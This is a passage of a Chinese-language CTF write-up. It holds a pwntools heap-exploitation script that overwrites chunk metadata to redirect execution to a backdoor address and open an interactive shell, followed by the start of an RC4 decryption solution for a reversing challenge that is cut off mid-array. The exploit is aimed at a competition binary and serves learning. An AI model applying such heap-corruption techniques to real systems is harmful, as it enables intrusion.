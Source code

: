 ```python

def edit(index, content):
    menu(3)
    p.sendlineafter(b'index:', str(index).encode())
    p.sendlineafter(b'len:', str(len(content) + 1).encode())
    p.sendlineafter(b'content:', content)

backdoor = 0x80489CE
add()
add()
add()
add()
addr1 = show(1)
info("addr1: " + hex(addr1))
edit(0, 2 * p64(0) + p32(0) + p32(0x21) + p32(backdoor))
edit(2, 2 * p64(0) + p32(0) + p32(0x21) + p32(addr1))
edit(3, b'a')
p.interactive()
```

![img](https://or4nge-images.zeroc0077.cn/writeups/2024/ciscn-18/img_1.png)

## Reverse

### ezCsky

用 cutter 可以反汇编，能看出密钥和密文

但是解不对，观察结果发现是前一个异或了后一个：

```python
import itertools
def KSA(key):
    """ Key-Scheduling Algorithm (KSA) """
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    return S
 
def PRGA(S):
    """ Pseudo-Random Generation Algorithm (PRGA) """
    i, j = 0, 0
    while True:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = S[(S[i] + S[j]) % 256]
        yield K
 
def RC4(key, text):
    """ RC4 encryption/decryption """
    S = KSA(key)
    keystream = PRGA(S)
    res = []
    for char in text:
        res.append(char ^ next(keystream))
    return bytes(res)
key = b'testkey'
hex_data = [
    0x96, 0x8f, 0xb8, 0x08, 0x5d, 0xa7, 0x68, 0x44, 
    0xf2, 0x64, 0x92, 0x64, 0x42, 0x7a, 0x78, 0xe6, 
```